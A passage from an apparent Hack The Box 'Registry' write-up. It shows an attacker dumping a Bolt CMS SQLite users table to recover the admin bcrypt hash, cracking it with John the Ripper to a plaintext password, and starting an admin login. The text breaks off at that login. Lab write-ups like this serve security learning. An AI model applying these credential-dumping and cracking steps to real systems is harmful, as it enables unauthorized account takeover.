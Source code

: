 * We searched about this Bolt CMS and we found some useful informations about admin page and credentials db 

![alt text](16.png "Zer0Code")

* Let copy database file to our machine and and see how can we open it  

![alt text](17.png "Zer0Code")

```console
root@Kali:~/HTB/registry# sqlite3 bolt.db
SQLite version 3.31.1 2020-01-27 19:55:54
Enter ".help" for usage hints.
sqlite> .table
bolt_authtoken    bolt_field_value  bolt_pages        bolt_users      
bolt_blocks       bolt_homepage     bolt_relations  
bolt_cron         bolt_log_change   bolt_showcases  
bolt_entries      bolt_log_system   bolt_taxonomy   
sqlite> select * from bolt_users;
1|admin|$2y$10$e.ChUytg9SrL7AsboF2bX.wWKQ1LkS5Fi3/Z0yYD86.P5E9cpY7PK|bolt@registry.htb
```
* and we got admin password hash 


## John The Ripper :

```consol
root@Kali:~/HTB/registry# john encpass 
Using default input encoding:UTF-8 
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3]) 
Cost 1 (iteration count) is 1024 for all loaded hashes
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist
strawberry (?)
1g 0:00:00:35 DONE 2/3 (2020-04-03 19:31) 0.02802g/s 30.35p/s 30.35c/s 30.35C/s stinky..stuart
Use the "--show" option to display all of the cracked passwords reliably
Session completed

```
---
## Bolt :
Let's use admin creds to login


[logo]: 01.jpg